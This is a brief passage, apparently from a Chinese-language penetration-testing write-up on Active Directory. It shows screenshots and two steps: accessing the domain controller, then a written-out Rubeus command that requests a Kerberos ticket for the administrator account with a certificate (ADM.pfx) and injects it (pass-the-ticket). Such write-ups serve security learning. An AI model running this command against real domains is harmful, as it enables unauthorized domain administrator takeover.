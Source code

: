 [![](assets/1701606771-6cdc7b36fbcf187cd3057b744fe58496.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106145243-15da36ec-7c71-1.png)  
Step 3：尝试访问域控  
[![](assets/1701606771-d7b1b8f8d2ca638f3e9c6edda1f9c1ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106145258-1ea9e718-7c71-1.png)  
Step 4：利用 Rubeus 请求票证，并将生成的票证用于 PTT

```plain
Rubeus.exe asktgt /user:administrator /certificate:ADM.pfx /password:123456 /ptt
```
